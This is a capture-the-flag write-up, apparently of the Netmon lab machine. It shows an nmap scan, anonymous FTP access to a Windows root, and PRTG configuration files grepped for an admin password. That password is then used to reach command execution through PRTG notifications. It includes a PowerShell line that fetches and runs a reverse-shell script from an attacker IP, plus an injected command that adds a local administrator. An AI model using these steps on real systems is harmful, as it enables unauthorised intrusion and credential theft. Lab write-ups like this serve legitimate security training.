

# netmon


## nmap

initial scan

PORT    STATE SERVICE      VERSION                                                                                                     
21/tcp  open  ftp          Microsoft ftpd                                                                                              
| ftp-anon: Anonymous FTP login allowed (FTP code 230)                                                                                 
| 02-03-19  12:18AM                 1024 .rnd                                                                                          
| 02-25-19  10:15PM       <DIR>          inetpub                                                                                       
| 07-16-16  09:18AM       <DIR>          PerfLogs                                                                                      
| 02-25-19  10:56PM       <DIR>          Program Files
| 02-03-19  12:28AM       <DIR>          Program Files (x86)
| 02-03-19  08:08AM       <DIR>          Users
|_02-25-19  11:49PM       <DIR>          Windows
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp  open  http         Indy httpd 18.1.37.13946 (Paessler PRTG bandwidth monitor)
|_http-server-header: PRTG/18.1.37.13946
| http-title: Welcome | PRTG Network Monitor (NETMON)
|_Requested resource was /index.htm
|_http-trane-info: Problem with XML parsing of /evox/about
135/tcp open  msrpc        Microsoft Windows RPC
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 9s, deviation: 0s, median: 8s
|_smb-os-discovery: ERROR: Script execution failed (use -d to debug)
| smb-security-mode: 
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2020-08-21T13:37:09
|_  start_date: 2020-08-21T13:34:32


## http enumeration


- PRTG Network monitoring tool
- default credentials are not working
- so we will look where credentials for this tool through FTP


## ftp enumeration

- anonymous login is allowed
- directly logging into root folder of windows


got user flag via ftp


- Got a log files also but nothing useful

[default credentials are stored in](https://kb.paessler.com/en/topic/463-how-and-where-does-prtg-store-its-data)




## post


#### ftp


```
%programdata%\paessler\PRTG Network Monitor
```


- got some interesting file lets copy them and checkout


#### password grep and sed

```bash
cat "PTRG COnfiguration.dat" | grep -A 10 -B 10 -i password | sed 's/ //g'

cat PRTG\ Configuration.dat | grep -A 10 -B 10 -i JO3Y7LLK7IBKCMDN3DABSVAQO5MR5IDWF3MJLDOWSA====== | sed 's/ //g'
```


- password are encrypted in "PRTG Configuration.dat"


- trying the same command with backup file


#### credentials

username			prtgadmin

password			 ~~PrTg@dmin2018~~ 	PrTg@dmin2019

so the password is updated by a year because the password was 1 year old


#### login


- we got a login now lets try to figure out a way to execute code


#### command execution

- we will go to notification
- edit one of the notification to execute program
- and test with a ping command command


- we got a successfull ping we can execute code


#### adding a user to administrator

- this did not work for some reason

~~powershell iex (New-Object Net.WebClient).DownloadString('http://10.10.14.13:8000/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.13 -Port 7777~~


- ```
  ;net user Manish Password!123 /add;net localgroup administrators Manish /add;
  ```

  - dont forget to put a terminator before the code

- succesfully got the shell

